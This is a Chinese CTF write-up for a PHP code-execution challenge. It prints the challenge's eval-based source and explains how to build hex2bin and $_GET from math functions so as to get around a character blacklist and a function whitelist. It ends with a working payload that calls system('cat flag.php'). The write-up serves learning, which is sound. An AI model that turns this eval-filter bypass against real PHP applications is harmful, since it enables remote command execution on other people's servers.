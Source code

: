 [toc]

# WP

## WEB入门 124

> RCE、代码审计

打开这道题，源码已经给了出来，如下：

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: 收集自网络
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-06 14:04:45

*/

error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
```

看一下代码，首先将GET方式得到的c计算长度，不能大于80，然后不能含有`\t \r \n ' " [ ] `，以及空格和反引号等字符。接下来是一个正则，前面部分匹配小写大写字母和下划线，后面匹配小写大写字母和数字和下划线，前面假如是数字开头，是不会被匹配的。刚开始以为这里有什么玄机，但并没有。

再者，注意一下`$content`这个变量，明显也是可以通过`;`来输入多条语句的。

然后说是只允许使用几个数学的函数，点上面的链接看这些函数，有几个比较重要：

> base_convert(source, input_base, out_base)

这里就是把`source`从`input_base`转换到`out_base`，且进制最大为36，返回值是字符串类型的，那这里就可控了。

在36进制下，任何一个小写字母都是存在的，因此我们可以通过`base_convert`将一个十进制字符串转化为一个任意的小写字符和数字的字符串。

> dechex(num)

这个不用说，把十进制数字转化为十六进制字符串，虽然`base_convert`是可以这样用，但是这里题目要求不能大于80，这个用法比较短呀，因此要构造的字符串中的字母在`a-f`之间都是可以用这个的。



有了上面两个函数，第一反应是直接构造一个system，但想了下这里没办法空格，自然没有办法直接`cat xxx`.因此这里就需要另一个函数`hex2bin($hex_str)`，可以将十六进制字符串按照Ascii码转化为任意字符串。这里这道题就快出来了，说一下payload，再说下payload含义。

payload:

```php
c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));$$pi{1}($$pi{2});
&1=system
&2=cat flag.php
```

首先，因为有这么多限制，绕过起来太麻烦，而上面也说到可以传入多条命令，因此可以构造`$_GET`函数出来以得到各种可控变量。字符串`_GET`我们使用`hex2bin`可以构造出来。我们用`bin2hex('_GET')`可以得到字符串`_GET`对应的十六进制字符串`5f474554`。再用`hexdec('5f474554')`可以得到字符串`_GET`最终对应的十进制数是`1598506324`，那要恢复`_GET`这个字符串，我们倒过来，使用`hex2bin(dechex(1598506324))`，就可以了！

因此，构造`hex2bin`，即`base_convert(37907361743,10,36)`，然后里面是算出来的，不变，因此`_GET`就通过payload里面第一行构造出来了，我们将其赋值给变量`$pi`。原因是不能用别的字符，会被正则，这里用一个短一点的可用函数直接覆盖变量即可。然后使用`$$pi`，这样也就是函数`$_GET`，就可以得到任意字符的变量。

最后构造一个`system('cat flag.php')`即可。大概也只需要注意一下`$_GET`和`$_POST`是可以通过`{}`形式来传递参数的。